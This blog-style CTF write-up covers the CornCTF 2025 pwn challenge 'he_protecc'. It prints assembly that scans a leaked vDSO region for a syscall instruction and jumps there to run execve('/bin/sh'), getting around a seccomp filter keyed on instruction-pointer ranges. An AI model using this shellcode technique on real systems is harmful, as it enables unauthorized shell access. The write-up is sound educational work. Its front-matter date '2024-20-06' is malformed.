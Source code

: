 ```yaml
---
layout: ../../../layouts/BlogLayout.astro
title: "he_protecc: CornCTF 2025"
date: 2024-20-06
author: "ub1k"
tags: ["pwn"] 
image: "./images/cover.png"
---
```



# he_protecc: CornCTF 2025

> **Solved by: Ub1k**, **Writeup by: Ub1k**

# Introduction

This is the first pwn challenge in the CornCTF 2025.
Upon inspecting the binary we immediately notice two things:

1) **The security mitigations are very relaxed**: the GOT is writable (Partial RELRO) and the code area is not position independent (No PIE) and as such is not randomized.
2) **The ELF is statically linked**: so we can exclude ret2libc and we have to ignore shenanigans with dynamic libraries this time.

![](images/he_protecc-018.webp)

By executing the binary we are prompted to input the length of some shellcode followed by the code itself.

![](images/he_protecc-02.webp)

It would definitely be too easy if we could execute a `execve("/bin/sh",null,null)` and get the shell. 
Let's take a closer look at the binary to see what's really happening.
# Looking around
Disassembling the binary reveals an easy to read and understand code, let's look at the most important stuff.

![](images/he_protecc-013.png)
## mmap my beloved

<Callout type="info">
**mmap**() creates a new mapping in the virtual address space of the calling process. In other words, it creates a new data area in a position and with permissions decided by the caller, it is used in dynamically loaded binaries and in some cases in heap allocation. 
In our case the program needs a mmap region because we don't have an area that is writable and executable at the same time.
</Callout>

The mmap call is easy to understand:
- New memory area is **mapped** at position `0x500000`.
- The **size** is `0x1000` bytes (one page or 4096 bytes).
- The p**ermission** parameter is `RWX`: `001 | 010 | 100 = 111 (7)` 

To understand the flags we can use the `strace` command and read the instruction from there:

![](images/he_protecc-012.png)

These two flags simply signal that the mapped region is private to our process and not mapped to any file, this means the area is initialized with zeroes.

A boring mmap region, nothing special here... sadly
## seccomp

I'm not going to show the full `setup_seccomp()` disassembly as it is a bit ugly, the important part comes at the end:

![](images/he_protecc-014.webp)

The `prctl` call sets the **NO_NEW_PRIVS** flag, why?  This is a security measure to stop privilege escalation made by malformed seccomp filter, so we put it before every seccomp installation ([explanation](https://unix.stackexchange.com/questions/562260/why-we-need-to-set-no-new-privs-while-before-calling-seccomp-mode-filter)).
The next instruction, the syscall, installs a seccomp filter on the binary.

<Callout type="info">
As the name suggests, seccomp is a mechanism to harden syscall access by evaluating a small program called a Berkeley Packet Filter (BPF) for every syscall. Based on the result, the syscall is either allowed or denied.
</Callout>

So the questions becomes: What does this seccomp filter allow?
I was today years old when I learned that I don't need to manually decode seccomp filters... there exists a tool for that, thanks Marco. ([Github](https://github.com/david942j/seccomp-tools)): 

So by executing `seccomp-tools dump ./protected` we get:

```
 line  CODE  JT   JF     K
=================================
 0000: 0x20 0x00 0x00 0x00000008  A = instruction_pointer
 0001: 0x01 0x00 0x00 0x003fffff  X = 4194303 (0x3fffff)
 0002: 0x2d 0x00 0x0a 0x00000000  if (A <= X) goto 0013
 0003: 0x01 0x00 0x00 0x004b7fff  X = 4947967 (0x4b7fff)
 0004: 0x2d 0x00 0x07 0x00000000  if (A <= X) goto 0012
 0005: 0x01 0x00 0x00 0x004fffff  X = 5242879 (0x4fffff)
 0006: 0x2d 0x00 0x06 0x00000000  if (A <= X) goto 0013
 0007: 0x01 0x00 0x00 0x00500fff  X = 5246975 (0x500fff)
 0008: 0x2d 0x00 0x03 0x00000000  if (A <= X) goto 0012
 0009: 0x20 0x00 0x00 0x0000000c  A = instruction_pointer >> 32
 0010: 0x01 0x00 0x00 0x00007fff  X = 32767 (0x7fff)
 0011: 0x2d 0x00 0x01 0x00000000  if (A <= X) goto 0013
 0012: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW```
```

This is *not* a typical seccomp filter. Normally a seccomp filter checks the syscall number against a whitelist and returns if it is permitted or not, but here the filter loads the `RIP` at the moment of execution of the syscall and only returns ALLOW if the position is one of the following, else the process gets killed:

- Before `0x3FFFFF`: but that's not possible because the address space starts at `0x400000` 
- Between `0x4b7fff` and `0x4fffff`: but there are no syscalls in that region.
- Between `0x500fff` and `0x7fffffffffff`:  After the mmap regio, so this is why we can't execute a syscall in the shellcode :( 

But WAIT, what can we find after `0x500fff` but before `0x7fffffffffff`?

Let's run our debugger of choice and look at the mappings:

![](images/he_protecc-015.webp)

Using `vmmap` we can see that only one mapping has read and execution permission, and that is `vdso`.

<Callout type="info">
**vDSO** (virtual dynamic shared object) is a kernel mechanism for exporting a carefully selected set of kernel space routines to user space applications so that applications can call these kernel space routines in-process, without incurring the performance penalty of a mode switch from user mode to kernel mode. ([Wikipedia](https://en.wikipedia.org/wiki/VDSO))
</Callout>

By piping the instructions found in that memory area into `grep` we can see a few syscall instruction inside `vdso`, jumping to them should give us the syscall we need!

![](images/he_protecc-016.webp)
# Leak & Pwn

Here comes the problem, even if the ELF is not PIE, the stack and also `vdso` still get randomized by **ASLR**, even worse, the internal offsets also get randomized... But let's tackle one problem after another:

## The Leak

Using `p2p stack vdso` we can see 4 leaks on the stack for **vdso**, let's choose the first one.

![](images/he_protecc-017.webp)

## Assembly 

Now comes the *difficult* part, we can't calculate the offset between the syscalls and our leak because we cannot guarantee that the internal offsets are the same in the remote binary, we need to scan the memory area...

The first part is easy, let's take the first leak and put it into a register:

```asm
mov r8, [rbp - 0x218]
```

We could zero out the 12 least significant bits of this leak to align the address to the start of a memory page, but in our case, it's unnecessary, we already know there are 5 syscall instructions diseminated in the region and it is impossible that they are all contained in the first '0x340' bits of the page.
Now let's scan the memory region for a syscall instruction, remember that it's opcode is `0x0F05` but we are in little-endian so we need to reverse the order of bits:

```asm
loop:
inc r8
mov ax, word ptr [r8]
cmp ax, 0x050f <-- syscall opcode but reversed
jne loop
```

This code snipped increases `r8` (pointer to `vdso` leak) and reads two bytes, it then checks if the bytes are equal to the one representing syscall, if not, it continues the loop. If it exits instead, `r8` will point to a valid syscall instruction, and we can continue with setting the other registers for an execve call.

```asm
mov r9, {u64(b"/bin/sh\0")}
push r9

mov rax, 59 
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx

jmp r8 // <-- jump to syscall outside our mmap area
```

sending this payload will spawn a shell and with a simple 'cat flag.txt' we get the flag!

